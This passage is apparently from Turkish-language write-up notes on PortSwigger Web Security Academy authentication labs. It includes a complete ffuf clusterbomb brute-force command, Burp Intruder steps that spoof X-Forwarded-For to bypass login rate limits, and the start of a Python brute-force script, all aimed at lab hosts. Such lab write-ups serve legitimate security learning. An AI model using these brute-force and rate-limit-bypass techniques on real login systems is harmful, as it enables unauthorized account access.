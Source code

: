 labda az buz farklı cevaplarla enumaration yapılabileceği yazıyor
- ama buna hiç gerek yok dostlar
- ffuf kullanalım hemen
- her derde deva ffuf command:
```
ffuf -mode clusterbomb -u 'https://0a9d00d503f87b3c80cb2bb00061006e.web-security-academy.net/login' -w ./Usernames/PortSwiggerUsernames.txt:BUZZ -w ./Passwords/PortSwiggerPasswords.txt:FUZZ -X POST -d 'username=BUZZ&password=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Cookie:session=0vMpyK0aXNHlA9nfVpbc5BaApeH6UB2z' -fr 'Invalid username','Incorrect password','Invalid username or password' -fc 200
```
- username: analyzer
- password: 121212
- Voila Lab solved!

#### 5.Lab: Username enumeration via response timing

Labda response time da duruma göre gecikmelerin olabileceği yazıyor, ipuçlarında da aynı IP adresinden fazla istek atılması üzerine application'ın istek kabul etmeyeceği yazıyor,
- Aynı ip adresten birkaç kere login isteği atıyoruz
- Giriş sınırı: 5
- İsteklere gelen cevapta `X-Forwarded-For` ibaresi gördüm
- Bunu kullanarak istek sınırını atlayabiliriz
- Önce geçerli bir username buluyoruz.
- Burp intruder'da önce `X-Forwarded-For` header'ına 101'e kadar payload koyuyoruz
- Username için de aşağıda  `username=PAYLOADGOESHERE&password ...` gibi bir payload'ı SecListten yüklüyoruz.
- Saldırı bitince response time değerlerini incelediğimizde en bir isteğin diğerlerinden daha geç geldiğini görüyoruz.
- Bu username'i bulduk demek
- Ardından yine intruder'a bu sefer password kısmına bir payload koyuyoruz : `username=VALIDUSRNAME&password=PAYLOADGOESHERE` 
- Grep/match kısmına `Invalid username or password` şeklinde bir ifade ekliyoruz
- Bu ifadenin işaretli olmadığı satır bize istediğimiz cevabı verecek 
- Sifre de bulunmuş oldu
- username : root
- password : charlie
- Voila Lab Solved!


#### 6.Lab: Broken brute-force protection, IP block

Bu labda 5 yanlış giriş denemesi yapıldıysa IP block ediliyor. Eğer doğru giriş yapıldıysa da ban kalkıyor. Labda 5 istekte bir elimizdeki `wiener:peter` kullanıcısoyla giriş yapmamız gerekiyor. 
- Ben bunun için bir python kodu yazdım:
- Python Kodu:
```
import requests as r
  

url = "https://0a4d00fa04ea1d6b80be7b05006c00e9.web-security-academy.net/login"
headers = {
    "Host": "0a4d00fa04ea1d6b80be7b05006c00e9.web-security-academy.net",
    "Content-Length": "30",
    "Cache-Control": "max-age=0",
    "X-Forwarded-For": "192.169.100.100",
    "Sec-Ch-Ua": "\"Chromium\";v=\"135\", \"Not-A.Brand\";v=\"8\"",
    "Sec-Ch-Ua-Mobile": "?0",
    "Sec-Ch-Ua-Platform": "\"Windows\"",
    "Accept-Language": "tr-TR,tr;q=0.9",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "https://0a4d00fa04ea1d6b80be7b05006c00e9.web-security-academy.net",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36",
```